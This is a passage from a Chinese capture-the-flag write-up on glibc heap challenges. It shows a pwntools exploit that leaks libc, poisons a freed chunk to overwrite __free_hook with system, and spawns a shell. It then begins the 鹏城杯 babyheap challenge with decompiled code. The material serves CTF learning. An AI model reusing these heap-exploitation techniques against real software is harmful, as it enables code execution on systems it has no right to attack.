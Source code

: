 ```plain

def edit(idx,content):
    choice(edit_idx)
    sla('Index :',idx)
    #sla('',size)
    sa('enter the username : ',content)

add(0x10,'/bin/sh\x00')
add(0x88,'aaaa')
add(0x18,'aaaa')
delete(1)

add(0x88,'a'*8)
show(1)
ru('aaaaaaaa')
libc_base = u64(p.recv(6).ljust(8,'\x00'))-0x3c4b0a
leak('libc_base ',libc_base)


system = libc_base + libc.sym['system'] 
free_hook = libc_base + libc.sym['__free_hook']
malloc_hook = libc_base + libc.sym['__malloc_hook']
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
add(0x18,'')
add(0x18,'')
add(0x18,'')
add(0x18,'')
edit(2,p64(0)*3+p8(0x81))
delete(3)
add(0x70,p64(0)*8+p64(0x10)+p64(free_hook))
edit(4,p64(system))
delete(0)
'''
'''
#duan()
itr()
```

## 鹏城杯-babyheap

glibc2.38 : off by null + IO\_leak + attack tcache\_struct + 高版本打栈

### ida

```plain
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  IO();
  heap_addr();
  while ( 1 )
  {
    menu();
    switch ( (unsigned int)sub_136B() )
    {
      case 1u:
        add();
        break;
      case 2u:
        edit();
        break;
      case 3u:
        show();
        break;
```